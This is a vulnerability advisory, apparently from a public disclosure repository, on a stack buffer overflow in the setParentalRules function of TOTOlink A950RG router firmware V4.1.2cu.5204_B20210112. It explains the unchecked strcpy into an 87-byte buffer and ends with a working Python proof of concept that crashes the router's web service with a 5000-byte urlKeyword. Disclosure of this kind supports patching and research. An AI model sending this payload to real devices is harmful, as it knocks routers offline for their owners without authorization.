


# **TARGET**

TOTOlink A950RG Router (Firmware Version V4.1.2cu.5204_B20210112)

# **BUG TYPE**

Buffer Overflow

# **Abstract**

A buffer overflow vulnerability exists in the `setParentalRules` interface of the TOTOlink A950RG router running firmware V4.1.2cu.5204_B20210112. The `urlKeyword` parameter is not properly validated, and the function concatenates multiple user-controlled fields into a fixed-size stack buffer without performing boundary checks. A remote attacker can exploit this flaw to cause denial of service or potentially achieve arbitrary code execution.

# **Details**



## **Vulnerability Description**

The vulnerability lies in `/lib/cste_modules/firewall.so` within the `setParentalRules` function (entry address: `0x00007AC0`). The function obtains several user-controlled parameters through `websGetVar`, including:

* `urlKeyword`
* `week`
* `startTime`
* `endTime`

The function allocates a stack buffer `s_` with size **87 bytes (0x57)** and initializes it using:

```
memset(s_, 0, 0x57u);
```

In the main execution path, the function constructs another buffer `s` using:

```
sprintf(s, "%s%03d%s%s", Var, v11, v12, v13);
```

Where:

* `Var` = `urlKeyword`
* `v11` = formatted week value (3-digit)
* `v12` = startTime
* `v13` = endTime

After building the concatenated string, the function performs:

```
strcpy(s_, s);
```

This `strcpy` copies the entire attacker-controlled formatted string into the **87-byte** buffer  **without checking its length** .

### **Impact**

If `urlKeyword + formatted week + startTime + endTime` exceeds 87 bytes, the following will occur:

* Overflow of `s_`
* Corruption of adjacent stack variables, including saved registers
* Potential overwrite of return address
* Process crash (DoS)
* Possibility of arbitrary code execution if properly exploited

Thus, remote attackers may cause denial of service or gain control over the device.

---

# **POC**

```python
import requests
import json

# Very long payload to trigger overflow
repeated = "A" * 5000

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/firewall/qos.asp?timestamp=1744049933207",
    "Priority": "u=0",
    "Cookie": "SESSION_ID=2:1744049667:2"
}

payload = {
    "topicurl": "setting/setParentalRules",
    "urlKeyword": repeated,
    "week": "000",
    "startTime": "0002",
    "endTime": "2300"
}

data = json.dumps(payload)

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```

### **Observed Behavior**

Before attack: the router management interface is accessible normally.

After sending the payload: the service becomes abnormal or crashes, confirming a trigger of the buffer overflow.


